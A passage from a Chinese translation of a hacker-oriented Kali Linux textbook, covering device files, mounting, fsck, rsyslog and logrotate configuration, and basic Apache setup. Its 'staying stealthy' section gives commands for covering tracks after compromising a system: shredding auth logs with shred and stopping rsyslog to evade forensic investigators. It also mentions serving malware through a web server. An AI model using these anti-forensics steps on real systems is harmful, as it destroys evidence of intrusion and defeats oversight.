默认情况下，设备是按字母顺序显示的。您可能认识其中一些设备，比如cdrom和cpu，但是其他设备的名称相当神秘。系统上的每个设备都由/dev目录中的一个文件表示，其中包括您可能从未使用过或甚至从未意识到存在的设备。如果您这样做，可能会有一个设备文件等待使用。

如果您向下滚动屏幕一点，您应该会看到更多的设备清单。特别有趣的是设备sda1、sda2、sda3、sdb和sdb1，它们是硬盘驱动器及其分区、USB闪存驱动器及其分区。

­­snip­­

brw­rw­­­­ 1 root root 8, 0 May 16 12:44 sda

brw­rw­­­­ 1 root root 8, 1 May 16 12:44 sda1

brw­rw­­­­ 1 root root 8, 2 May 16 12:44 sda2

brw­rw­­­­ 1 root root 8, 5 May 16 12:44 sda5

brw­rw­­­­ 1 root root 8, 16 May 16 12:44 sdb

brw­rw­­­­ 1 root root 8, 17 May 16 12:44 sdb1

­­snip­­

让我们仔细看看这些内容。

#### *Linux如何表示存储设备*

Linux对随后挂载在文件系统上的驱动器使用逻辑标签。这些逻辑标签将根据驱动器的挂载位置而变化，这意味着相同的硬盘驱动器可能在不同的时间有不同的标签，这取决于它挂载的位置和时间。

最初，Linux将软盘驱动器(还记得吗?)表示为fd0，将硬盘驱动器表示为hda。您仍然会偶尔在遗留Linux系统上看到这些驱动器表示，但是今天大多数软盘驱动器都消失了(谢天谢地)。即使如此，使用IDE或E-IDE接口的旧的遗留硬盘驱动器仍然以hda的形式表示。较新的串行ATA
(SATA)接口驱动器和小型计算机系统接口(SCSI)硬盘驱动器被表示为sda。驱动器有时被分割成称为分区的部分，这些部分在标记系统中用数字表示，您将在下一节中看到。

当系统有多个硬盘驱动器时，Linux通过按字母顺序递增最后一个字母来串行命名它们，因此第一个驱动器是sda，第二个驱动器是sdb，第三个驱动器是sdc，等等(参见表10-1)。sd后的连续字母通常被称为主编号。

表10-1:设备命名系统

| **设备文件描述** |                    |
|------------------|--------------------|
| sda              | 第一个SATA硬盘     |
| sdb              | 第二SATA硬盘驱动器 |
| sdc              | 第三SATA硬盘驱动器 |
| sdd              | 第四SATA硬盘驱动器 |

#### *硬盘分区*

一些驱动器可以划分为多个分区，以便管理和分离信息。例如，您可能想要将硬盘驱动器分开，以便交换文件、主目录和/目录都位于单独的分区上——您这样做可能有很多原因，包括共享资源和放松默认权限。

Linux在每个分区的驱动器名称后面都加上一个次要编号。这样，第一个SATA驱动器上的第一个分区就是sda1。第二个分区是sda2，第三个是sda3，以此类推，如表10-2所示。

表10-2:分区标识

| **设备文件描述** |                                    |
|------------------|------------------------------------|
| sda1             | 第一个SATA驱动器上的第一个分区(1)  |
| sda2             | 在第一个(a)驱动器上的第二个(2)分区 |
| sda3             | 在第一个(a)驱动器上的第三个(3)分区 |
| sda4             | 在第一个(a)驱动器上的第四个(4)分区 |

有时，您可能希望查看Linux系统上的分区，以查看您拥有哪些分区以及每个分区中有多少可用容量。您可以通过使用**fdisk**实用程序来实现这一点。使用带有**fdisk**的**-l**参数列出所有驱动器的所有分区，如清单10-2所示。

kali \>fdisk -l

Disk /dev/sda: 20GiB, 21474836480 bytes, 41943040 sectors

Units: sectors of 1 \* 512 = 512 bytes

Sector size (logical/physical): 512 bytes / 512 bytes

I/O size (minimum/optimal): 512 bytes / 512 bytes

Disk label type: dos

Disk identifier: 0x7c06cd70

Device Boot Start End Sectors Size Id Type

/dev/sda1 \* 2048 39174143 39172096 18.7G 83 Linux

/dev/sda2 39176190 41940991 2764802 1.3G 5 Extended

/dev/sda5 39176192 41940991 2764800 1.3G 82 Linux swap / Solaris

Disk /dev/sdb: 29.8 GiB, 31999393792 bytes, 62498816 sectors

Units: sectors of 1 \* 512 = 512 bytes

Sector size (logical/physical): 512 bytes / 512 bytes

I/O size (minimum/optimal): 512 bytes / 512 bytes Disk label type: dos

Disk identifier: 0xc3072e18

Device Boot Start End Sectors Size Id Type

/dev/sdb1 32 62498815 62498784 29.8G 7 HPFS/NTFS/exFAT

*清单10-2:使用fdisk列出分区*

如清单10-2所示，设备sda1、sda2和sda5在第一节中列出。这三种设备构成了我的虚拟机的虚拟磁盘，它是一个20GB的驱动器，有三个分区，包括交换分区(sda5)，当RAM容量超过时，它充当虚拟RAM—类似于Windows中的虚拟页面文件。

如果将清单10-2向下扫描到第三节，您将看到指定为sdb
-的第二个设备输出，b标签告诉我们这个驱动器与前三个设备是分开的。这是我的64GB闪存。注意，**fdisk**表示它是HPFS/NTFS/ExFAT文件系统类型。这些文件类型——高性能文件系统(HPFS)、新技术文件系统(NTFS)和扩展文件分配表(exFAT)——不是Linux系统的本机文件，而是macOS和Windows系统的。在进行研究时，能够识别不同系统的原生文件类型是值得的。文件系统可能指出驱动器的格式设置在哪种机器上，这是有价值的信息。Kali能够使用在许多不同操作系统上创建的USB闪存驱动器。

正如您在第1章中看到的，Linux文件系统的结构与Windows和其他专有操作系统有很大的不同。最重要的是，Linux中文件的存储和管理方式也不同。新版本的Windows使用NTFS文件系统，而旧的Windows系统使用文件分配表(FAT)系统。

Linux使用许多不同类型的文件系统，但最常见的是ext2、ext3和ext4。这些都是ext(或扩展的)文件系统的升级版，ext4是最新的。

#### *字符和块设备*

关于/dev目录中设备文件的命名，还需要注意的是，第一个位置包含**c**或**b**。您可以在清单10-1的大多数条目开头看到这一点，它看起来像这样:

crw­­­­­­­ 1 root root 10,175 May 16 12:44 agpgart

这些字母代表设备输入和输出数据的两种方式。**c**代表字符，如您所料，这些设备被称为字符设备。通过逐个字符(如鼠标或键盘)发送和接收数据与系统交互的外部设备是字符设备。

**b**代表第二种类型:块设备。它们以数据块(一次多个字节)进行通信，包括硬盘驱动器和DVD驱动器等设备。这些设备需要更高的数据吞吐量，因此以块(一次多个字符或字节)的形式发送和接收数据。一旦您知道一个设备是字符设备还是块设备，您就可以轻松地获得关于它的更多信息，您将在下面的文章中看到。

#### *使用lsblk列出块设备和信息*

Linux命令**lsblk** (list
block的缩写)列出/dev中列出的每个块设备的一些基本信息。结果类似于**fdisk
-l**的输出，但它也将在一种树型结构中显示具有多个分区的设备，将每个设备的分区显示为分支，并且不需要运行根特权。例如，在清单10-3中，我们看到了sda及其分支sda1、sda2和sda5。

kali \>lsblk

Name MAJ:MIN RM SIZE RO TYPE MOUNTPOINT

fd0 2:0 1 4K 0 disk

sda1 8:0 0 20G 0 disk

\|­sda1 8:1 0 18.7G 0 part /

\|­sda2 8:2 0 1K 0 part

\|­sda5 8:5 0 1.3G 0 part [SWAP]

sdb 8:16 1 29.8G 0 disk

\|­sdb1 8.17 1 29.8G 0 disk /media

sr0 11:0 1 2.7G 0 rom

*清单10-3:使用lsblk列出块设备信息*

输出包括软盘驱动器作为fd0,
DVD驱动器作为sr0，尽管我的系统上没有软盘驱动器，这只是旧系统的遗留。我们还可以在驱动器的挂载点上看到信息——这是驱动器附加到文件系统的位置。请注意，硬盘驱动器sda1安装在/目录和闪存驱动器安装在/media目录。在下一节中，您将更多地了解这一点的重要性。

### 安装和卸载

大多数现代操作系统，包括Linux的大多数新版本，在附加存储设备时自动加载它们，这意味着新的闪存驱动器或硬盘驱动器将自动附加到文件系统。对于Linux新手来说，挂载可能是一个陌生的主题。

存储设备必须首先物理地连接到文件系统，然后逻辑地连接到文件系统，以便使数据对操作系统可用。换句话说，即使设备在物理上与系统相连，它也不一定在逻辑上与操作系统相连并可用。术语mount是计算机早期的遗留问题，当时存储磁带(在硬盘驱动器之前)必须物理地挂载到计算机系统中，想想那些带旋转磁带驱动器的大型计算机，您可能已经看过老式科幻电影了。

如前所述，目录树中附加设备的点称为挂载点。Linux中的两个主要挂载点是/mnt和/media。一般来说，内部硬盘安装在/mnt上，外部USB设备(如闪存驱动器和外部USB硬盘)安装在/media上，但从技术上讲，可以使用任何目录。

#### *自己安装存储设备*

在某些版本的Linux中，您需要手动挂载驱动器才能访问其内容，因此这是一项值得学习的技能。要在文件系统上挂载驱动器，请使用**mount**命令。如果将设备挂载到具有子目录和文件的目录上，则挂载的设备将覆盖该目录的内容，使其不可见且不可用。因此，要将新硬盘sdb1挂载到/mnt目录，需要输入以下命令:

kali \>mount /dev/sdb1 /mnt

然后，应该可以访问该硬盘驱动器。如果您想将闪盘sdc1挂载在/media目录下，请输入:

kali \>mount /dev/sdc1 /media

挂载在系统上的文件系统保存在/etc/fstab(文件系统表的缩写)的文件中，系统在每次启动时读取该文件系统。

#### *卸载与umount*

如果你来自Mac或Windows的实践背景，你可能在不知情的情况下卸载了一个驱动器。在您从系统中删除闪存驱动器之前，您要“弹出”它，以防止对存储在设备上的文件造成损害。“弹出”是unmount的另一种说法。

类似于**mount**命令，您可以通过输入**umount**命令和/dev目录中设备的文件条目(例如/dev/sdb)卸载第二个硬盘驱动器。注意，该命令的拼写不是unmount，而是umount
(no n)。

kali \>umount /dev/sdb1

您无法卸载正在使用中的设备，因此如果系统正在读取或写入此设备，您将只会收到一个错误。

### 监控文件系统

在本节中，我们将研究一些用于监控文件系统状态的命令——这是任何黑客或系统管理员都必须具备的技能。我们将获得一些关于挂载磁盘的信息，然后检查和修复错误。存储设备尤其容易出错，因此值得学习这项技能。

#### *获取挂载磁盘上的信息*

命令**df**(对于空余磁盘)将为我们提供关于任何硬盘或挂载设备(如CD、DVD和闪存驱动器)的基本信息，包括正在使用的空间和可用空间(参见清单10-4)。如果没有任何选项，**df**默认为系统上的第一个驱动器(在本例中是sda)。如果您想检查另一个驱动器，只需使用您想检查的驱动器表示形式(例如，df
sdb)遵循**df**命令即可。

kali \>df

Filesystem 1K­Blocks Used Available Use% Mounted on

rootfs 19620732 17096196 1504788 92% /

udev 10240 0 10240 0% /dev

­­snip­­

/dev/sdb1 29823024 29712544 110480 99% /media/USB3.0

*清单10-4:使用df获取磁盘和挂载设备上的信息*

这里的第一行输出我们得到的信息显示类别标题，磁盘空间以1KB块的形式给出。在第二行，我们看到rootfs有19,620,732个1千字节的块，其中使用了17,096,196个块(约占92%)，剩下1,504,788个可用。**df**命令还告诉我们这个文件系统安装在文件系统/根目录。

在最后一行，你可以看到我的u盘。注意，它被指定为/dev/sdb1，几乎100%已满，挂载在/media/USB3.0。

综上所述，我在这个系统上的虚拟磁盘被指定为sda1，它的信息如下:

sd SATA硬盘

一个硬盘驱动器

驱动器上的第一个分区

我的64GB闪存驱动器指定为sdb1，我的外部驱动器指定为sdc1。

#### *检查错误*

**fsck**命令(文件系统检查的缩写)检查文件系统的错误并修复损坏(如果可能的话)，或者将错误区域放入一个错误块表中，将其标记为错误。要运行**fsck**命令，需要指定文件系统类型(默认为ext2)和要检查的设备文件。重要的是，在运行文件系统检查之前，必须卸载驱动器。如果卸载挂载的设备失败，将收到清单10-5所示的错误消息。

kali \>fsck

fsck from util­linux 2.20.1

e2fsck 1.42.5 (29­Jul­2012)

/dev/sda1 is mounted

e2fsck: Cannot continue, aborting.

*清单10-5:尝试(失败)在挂载的驱动器上运行错误检查*

因此，执行文件系统检查的第一步是卸载设备。在这种情况下，我将卸载我的闪存驱动器做一个文件系统检查:

kali \>umount /dev/sdb1

我可以添加**-p**选项，让fsck自动修复设备的任何问题，如:

kali \>fsck -p /dev/sdb1

在设备卸载后，我现在可以检查设备的任何坏扇区或其他问题，如下:

kali \>fsck -p /dev/sdb1

fsck from util­linux 2.30.2

exfatfsck 1.2.7

Checking file system on /dev/sdb1.

File system version 1.0

Sector size 512 bytes

Cluster size 32 KB

Volume size 7648 MB

Used space 1265 MB

Available space 6383 MB

Totally 20 directories and 111 files.

File system checking finished. No errors found.

### 总结

理解Linux如何设计和管理它的设备对于任何Linux用户和黑客来说都是至关重要的。黑客需要知道哪些设备被连接到一个系统，以及有多少可用空间。由于存储设备经常出现错误，我们可以使用**fsck**检查和修复这些错误。**dd**命令能够创建设备的物理副本，包括任何已删除的文件。

11
--

日志系统
--------

THE LOGGING SYSTEM

对于任何Linux用户，了解日志文件的使用是非常重要的。日志文件存储关于操作系统和应用程序运行时发生的事件的信息，包括任何错误和安全警报。您的系统将根据我将在本章中介绍的一系列规则自动记录信息。

作为黑客，日志文件可以跟踪目标的活动和身份。但是它也可以是你自己在别人系统上的活动的踪迹。因此，黑客需要知道他们可以收集什么信息，以及可以收集关于他们自己的行为和方法的什么信息，以便隐藏证据。

另一方面，任何保护Linux系统的人都需要知道如何管理日志记录功能，以确定系统是否受到攻击，然后破译实际发生的事情以及由谁做的。

本章向您展示如何检查和配置日志文件，以及如何删除活动的证据，甚至完全禁用日志记录。首先，我们将查看执行日志记录的守护进程。

### RSYSLOG日志记录守护进程

Linux使用一个名为**syslogd**的守护进程来自动记录计算机上的事件。**syslog**的几个变体，包括rsyslog和syslog-ng，在Linux的不同发行版上使用，尽管它们的操作非常相似，但仍然存在一些细微的差异。由于Kali
Linux是在Debian上构建的，并且Debian默认情况下带有rsyslog，所以我们将在本章重点介绍这个实用程序。如果您想使用其他发行版，那么有必要对它们的日志系统做一些研究。

让我们看看系统上的rsyslog。我们将搜索与rsyslog相关的所有文件。首先，在kali打开一个终端，输入以下内容:

kali \>locate rsyslog

/etc/rsyslog.conf

/etc/rsyslog.d

/etc/default/rsyslog

/etc/init.d/rsyslog

/etc/logcheck/ignore.d.server/rsyslog

/etc/logrotate.d/rsyslog

/etc/rc0.d/K04rsyslog

­­snip­­

如您所见，许多文件都包含关键字rsyslog，其中一些文件比其他文件更有用。我们要检查的是配置文件rsyslog.conf。

#### *rsyslog配置文件*

与Linux中的几乎所有应用程序一样，rsyslog由位于/etc目录下的纯文本配置文件进行管理和配置，这在Linux中通常是这样的。对于rsyslog，配置文件位于/etc/rsyslog.conf。使用任何文本编辑器打开该文件，我们将探索其中的内容(这里，我使用的是Leafpad):

kali \>leafpad /etc/rsyslog.conf

您应该看到代码如清单11-1所示的内容。

/etc/rsyslog.conf Configuration file for rsyslog.

\# For more information see

\# /usr/share/doc/rsyslog­doc/html/rsyslog_conf.html

\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#

\#\#\#\# MODULES \#\#\#\#

\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#

module(load="imuxsock") \# provides support for local system logging

module(load="imklog") \# provides kernel logging support

\#module(load="immark") \# provides ­­MARK­­ message capability

\# provides UDP syslog reception

\#module(load="imudp")

\#input(type="imudp" port="514")

\# provides TCP syslog reception

\#module(load="imtcp")

\#input(type="imtcp" port="514")

\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#

\#\#\#\# GLOBAL DIRECTIVES \#\#\#\#

\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#

*清单11-1:rsyslog.conf文件的内容*

正如您所看到的，rsyslog.conf文件有很多文档，其中有大量注释解释了它的用法。此时，这些信息中的大部分对您没有用处，但是如果您导航到第50行以下，您将找到Rules部分。在这里，您可以为Linux系统将自动为您记录的内容设置规则。

#### *rsyslog日志记录规则*

rsyslog规则决定记录哪种类型的信息，记录哪些程序的消息，以及将日志存储在何处。作为一名黑客，这允许您找出正在记录的日志以及这些日志的写入位置，以便您可以删除或隐藏它们。滚动到第50行，您将看到类似清单11-2的内容。

\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#

\#\#\#\# RULES \#\#\#\#

\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#

\#

\# First some standard log files. Log by facility.

\#

auth,authpriv.\* /var/log/auth.log

\*.\*;auth,authpriv.none ­/var/log/syslog

\#cron.\* /var/log/cron.log

daemon.\* ­/var/log/daemon.log

kern.\* ­/var/log/kern.log

1pr.\* ­/var/log/lpr.log

mail.\* ­/var/log/mail.log

user.\* ­/var/log/user.log

\#

\# Logging for the mail system. Split it up so that

\# it is easy to write scripts to parse these files.

\#

mail.info ­/var/log/mail.info

mail.warn ­/var/log/mail.warn

mail.err /var/log/mail.err

*清单11-2:在rsyslog.conf中查找日志规则*

每一行都是一个单独的日志记录规则，说明记录了哪些消息以及记录到哪里。这些规则的基本格式如下:

facility.priority action

**facility**关键字引用正在记录其消息的程序，例如邮件、内核或打印系统。priority关键字决定为该程序记录哪种类型的消息。在最右边的action关键字引用将发送日志的位置。让我们更仔细地看一下每个部分，首先是facility关键字，它指的是生成日志的任何软件，无论是内核、邮件系统还是用户。

下面是一个有效的代码列表，可以用来代替我们的配置文件规则中的关键字facility:

**auth/authpriv**安全/授权消息

**cron**时钟守护进程

**daemon**其他守护进程

**kern**内核消息

**lpr**打印系统

**mail**邮件系统

**user**常规用户级别消息

星号通配符（\*）代替单词指的是所有信息。 您可以通过以逗号分隔的列表来选择多个。

优先级告诉系统要记录哪种消息。代码从最低优先级列出，从调试开始到最高优先级，以严重结束。如果优先级为\*，则记录所有优先级的消息。指定优先级时，将记录该优先级及更高优先级的消息。例如，如果指定的优先级代码为告警alert，系统将记录分类为告警和更高优先级的消息，但不会记录标记为crit的消息或低于警报的任何优先级。以下是有效优先级代码的完整列表：

-   debug

-   info

-   notice

-   warning

-   warn

-   error

-   err

-   crit

-   alert

-   emerg

-   panic

warning、warn、error、err、emerg、panic，这些都已被弃用，不应该使用。

操作通常是一个文件名和应该发送日志的位置。注意，通常，日志文件被发送到/var/log目录，其文件名描述为生成它们的工具，如auth。这意味着，例如，由auth工具生成的日志将被发送到/var/log.auth.log。

让我们看一些日志规则的例子:

mail.\* /var/log/mail

这个示例将所有(\*)优先级的邮件事件记录到/var/log/mail文件中。

kern.crit /var/log/kernel

这个例子将把危险(crit)优先级或更高的内核事件记录到/var/log/kernel中。

\*.emerg \*

最后一个示例将记录所有登录用户的紧急事件(emerg)优先级的所有事件。通过这些规则，黑客可以确定日志文件的位置、更改优先级，甚至禁用特定的日志规则。

### 使用LOGROTATE自动清理日志

日志文件会占用空间，所以如果不定期删除它们，它们最终会填满整个硬盘驱动器。另一方面，如果太频繁地删除日志文件，那么在将来的某个时间点就没有日志供研究了。您可以使用logrotate通过切割日志来确定这些符合相反需求之间的平衡。

**logrotate**是通过将日志文件移动到其他位置来定期归档日志文件的过程，从而为您留下一个新的日志文件。然后，在指定的一段时间之后，归档的位置将被清理。

您的系统已经在使用**logrotate**实用程序的cron作业切割转储日志文件。您可以配置**logrotate**实用程序，以使用/etc/logrotate.conf文本文件选择日志转储备份的规律性。让我们用文本编辑器打开它看看:

kali \>leafpad /etc/logrotate.conf

您应该看到如清单11-3所示的内容。

\# see "man logrotate" for details

\# rotate log files weekly

➊ weekly

\# keep 4 weeks worth of backlogs

➋ rotate 4

➌ \# create new (empty) log files after rotating old ones

create

➍ \# uncomment this if you want your log files compressed

\#compress

\# packages drop log rotation information into this directory

include /etc/logrotate.d

\# no packages own wtmp, or btmp ­­ we'll rotate them here

/var/log/wtmp

{ missingok

monthly

create 0664 root utmp

rotate 1

}

*清单11-3:logrotate配置文件*

第一，你可以设置的时间单位数字参考➊。这里的默认值是weekly，这意味着rotate关键字之后的任何数字总是指weeks（周）。

进一步往下看，你可以看到设置切割转储日志默认设置的频率是每四个星期转储日志➋。这个默认配置对大多数人都适用，但是如果您想让您的日志更长一些，以便进行调查，或者更短一些，以便更快地清除它们，那么您应该更改这个设置。例如，如果您每周检查日志文件并希望节省存储空间，可以将此设置更改为rotate
1。如果您的日志有足够的存储空间，并且希望保留半永久记录以便以后进行取证分析，那么您可以将此设置更改为rotate
26以保存六个月的日志，或者将rotate 52更改为保存一年的日志。

默认情况下，创建一个新的空日志文件当做旧日志的切割备份➌。在配置文件中建议，你也可以选择压缩转储的日志文件➍。

在每个转储周期结束时，将重命名日志文件，并在创建新日志文件时将其推到日志链的末尾，以替换当前日志文件。例如，/var/log.auth将变成/var/log.auth.1，那么/var/log.auth.2，以此类推。如果您每四周轮换一次日志，并保留四组备份，那么您将得到/var/log.auth.4，但是没有/var/log.auth.5。意思是旧的/var/log.auth.4将被删除，而不是被推到/var/log/auth.5。您可以使用locate命令来查找/var/log/auth.log的log文件，并使用通配符，如下所示:

kali \>locate /var/log/auth.log.\*

/var/log/auth.log.1

/var/log/auth.log.2

/var/log/auth.log.3

/var/log/auth.log.4

有关自定义和使用**logrotate**实用程序的许多方法的详细信息，请参见man
logrotate页面。这是一个很好的资源，可以了解可以使用的函数和可以更改的变量，以定制如何处理日志。一旦您对Linux更加熟悉，您就会更好地了解需要多久进行一次日志记录，以及您喜欢哪些选项，因此值得重新访问*logrotate.conf*文件。

### 保持隐身

一旦您破坏了Linux系统，禁用日志记录并删除日志文件中您入侵的任何证据，这都是有用的，以减少被检测到的机会。有很多方法可以做到这一点，每种方法都有自己的风险和可靠性。

#### *删除证据*

首先，您需要删除活动的任何日志。您可以简单地打开日志文件，并使用在第2章中学习的文件删除技术，逐行准确地删除详细描述您的活动的任何日志。然而，这可能会很耗时，并在日志文件中留下时间间隔，这看起来很可疑。此外，删除的文件通常可以由一个熟练的取证调查员恢复。

更好、更安全的解决方案是分解日志文件。对于其他文件删除系统，熟练的调查员仍然能够恢复已删除的文件，但是假设有一种方法可以删除文件并多次擦写覆盖它，这使得恢复变得更加困难。幸运的是，Linux有一个内置命令，名为**shred**，正是为了这个目的。

要了解**shred**命令是如何工作的，请输入以下命令快速查看帮助信息:

kali \>shred --help

Usage: shred [OPTION]...FILE...

Overwrite the specified FILE(s) repeatedly in order to make it harder

for even very expensive hardware probing to recover data

­­snip­­

从屏幕上的完整输出可以看到，**shred**命令有许多选项。其最基本的形式，语法是简单的:

shred \<FILE\>

就其本身而言，**shred**将删除文件并多次覆盖它——默认情况下，**shred**将覆盖4次。通常，文件被覆盖的次数越多，恢复起来就越困难，但是请记住，每次覆盖都需要时间，因此对于非常大的文件，碎片化可能会很耗时。

要包括两个有用的选项，一个是**-f**选项，它更改文件的权限，以便在需要更改权限时允许覆盖；另一个是**-n**选项，它允许您选择覆盖文件的次数。例如，我们将使用以下命令将/var/log/auth.log中的日志文件分解覆盖**10**次:

kali \>shred -f -n 10 /var/log/auth.log.\*

我们需要**-f**选项来允许我们碎片化auth文件，然后我们按照**-n**选项指定要覆盖的次数。在我们要碎片化的文件的路径之后，我们包含通配符星号，因此我们不仅要碎片化auth.log文件，还要覆盖使用**logrotate**创建的所有日志，比如auth.log.1，auth.log.2，以此类推。

现在尝试打开一个日志文件:

kali \>leafpad /var/log/auth.log.1

一旦您覆盖了一个文件，您将看到其中的内容是难以理解的乱码，如图11-1所示。



*图11-1:覆盖的日志文件*

现在，如果安全工程师或取证调查员检查日志文件，他们将发现没有任何用处，因为没有一个是可恢复的！

#### *禁用日志记录*

另一个覆盖跟踪的选项是禁用日志记录。当黑客控制了一个系统，他们可以立即禁用日志，以防止系统跟踪他们的活动。当然，这需要**root**特权。

要禁用所有日志记录，黑客只需停止**rsyslog**守护进程。停止Linux中的任何服务使用相同的语法，如下所示(您将在第2章中了解更多)：

service servicename start\|stop\|restart

因此，要停止日志守护进程，只需输入以下命令:

kali \>service rsyslog stop

现在Linux将停止生成任何日志文件，直到服务重新启动，使您能够在日志文件中不留下任何证据的情况下进行操作！

### 总结

日志文件几乎跟踪Linux系统上发生的所有事情。在试图分析发生了什么，无论是故障还是黑客攻击时，它们都是非常宝贵的资源。对于黑客来说，日志文件可以作为他们活动和身份的证据。

然而，精明的黑客可以删除和覆盖这些文件，并完全禁用日志记录，因此不会留下任何证据。

12
--

熟练使用服务
------------

USING AND ABUSING SERVICES

在Linux术语中，服务是在后台运行的应用程序，等待您使用它。您的Linux系统预装了许多服务。其中最著名的是无处不在的Apache
Web
Server，它用于创建，管理和部署Web服务器，还有更多。出于本章关于服务的目的，我只选择了对黑客特别重要的四个：Apache
Web Server，OpenSSH，MySQL和PostgreSQL。

在本章中，您将学习如何使用Apache设置web服务器、使用OpenSSH进行物理监视、使用MySQL访问数据以及使用PostgreSQL存储黑客信息。

### 启动、停止和重新启动服务

在开始使用这四个关键的服务之前，让我们先研究一下如何在Linux中启动、停止和重新启动服务。

有些服务可以通过Kali
Linux中的GUI停止和启动，就像在Windows或Mac这样的操作系统上一样。下面是管理服务的基本语法:

service servicename start\|stop\|restart

要启动**apache2**服务（Web服务器或HTTP服务），请输入以下内容：

kali \>service apache2 start

要停止Apache Web服务器，请输入：

kali \>service apache2 stop

通常，当您通过更改其纯文本配置文件对应用程序或服务进行配置更改时，需要重新启动该服务以捕获新配置。因此，您可以输入以下内容：

kali \>service apache2 restart

既然您已经了解了如何从命令行启动，停止和重新启动服务，那么让我们继续讨论针对黑客的四个最关键的Linux服务。

### 使用APACHE Web服务器创建HTTP Web服务器

Apache Web
Server可能是Linux系统上最常用的服务。Apache在全球60％以上的Web服务器上都可以找到，因此任何自重的Linux管理员都应该熟悉它。作为一个渴望破解网站的黑客，了解Apache，网站和这些网站的后端数据库的内部工作方式至关重要。您还可以使用Apache设置自己的Web服务器，您可以通过网站脚本（XSS）向访问您网站的任何人提供恶意软件，或者您可以通过滥用域名克隆网站并将流量重定向到您的网站名称系统（DNS）。
在任何一种情况下，都需要Apache的基本知识。

#### *从Apache开始*

如果您的系统上运行了Kali，则已安装Apache。许多其他Linux发行版也默认安装它。如果您没有安装Apache，可以通过输入以下命令从存储库下载并安装它：

kali \>apt-get install apache2

Apache Web
Server通常与MySQL数据库相关联（我们将在下一节中讨论），这两种服务通常与脚本语言（如Perl或PHP）配对以开发Web应用程序。Linux，Apache，MySQL和PHP或Perl的这种组合形成了一个强大而强大的平台，用于开发和部署基于Web的应用程序，统称为LAMP。这些是用于在Linux世界中开发网站的最广泛使用的工具
- 它们在微软世界中也很受欢迎，它们通常被称为WAMP，W代表Windows。

当然，第一步是启动我们的Apache守护进程。在Kali中，转到应用程序▸服务▸HTTPD（Applications
▸ Services ▸ HTTPD）并单击Apache
start。您可以通过输入以下命令从命令行完成相同的操作：

kali \>services apache2 start

现在Apache正在运行，它应该能够提供其默认网页。 在您喜欢的Web浏览器中输入http://
localhost /以显示网页，该网页应类似于图12-1。



*图12­1: Apache2 Web Server 默认页*

如您所见，Apache将“**It works**”显示为其默认网页。现在你知道你的Apache
Web服务器正在运行，让我们来自定义它吧！

#### *编辑index.html文件*

Apache的默认网页位于/var/www/html/index.html。您可以编辑index.html文件以提供您想要的任何信息，所以让我们创建自己的信息。为此，您可以使用任何文本编辑器，我将使用Leafpad打开/var/www/html/index.html，你会看到类似于列表12-1的信息。



*清单12­1: Apache Web Server 的index.html页面*

请注意，默认网页是我们将浏览器打开到localhost时显示的文本，默认格式为➊。我们需要做的就是编辑或替换此文件，让我们的Web服务器显示我们想要的信息。

#### *添加HTML*

现在我们已启动并运行Web服务器并打开index.html文件，我们可以添加我们希望Web服务器提供的任何文本。我们将创建一些简单的HTML模块。

我们来创建这个页面。在文本编辑器的新文件中，输入清单12-2中显示的代码。

\<html\>

\<body\>

\<h1\>Hackers­Arise Is the Best! \</h1\>

\<p\> If you want to learn hacking, Hackers­Arise.com \</p\>

\<p\> is the best place to learn hacking!\</p\>

\</body\>

\</html\>

*清单12­2:一些简单的HTML添加到index.html*

完全按照清单12-2中的内容输入文本后，将此文件另存为/var/www/html/index.html并关闭文本编辑器。
然后，您的文本编辑器将提示您该文件已存在，没关系，只需覆盖现有的/var/www/html/index.html文件即可。

#### *看会发生什么*

保存了我们的/var/www/html/index.html文件后，我们可以查看Apache将提供的服务。再次浏览浏览器到http://
localhost，您应该会看到类似于图12-2的内容。



*图12-2：新的HackersArise网站*

Apache就像我们创建它一样提供了我们的网页！

### OPENSSH和树莓派

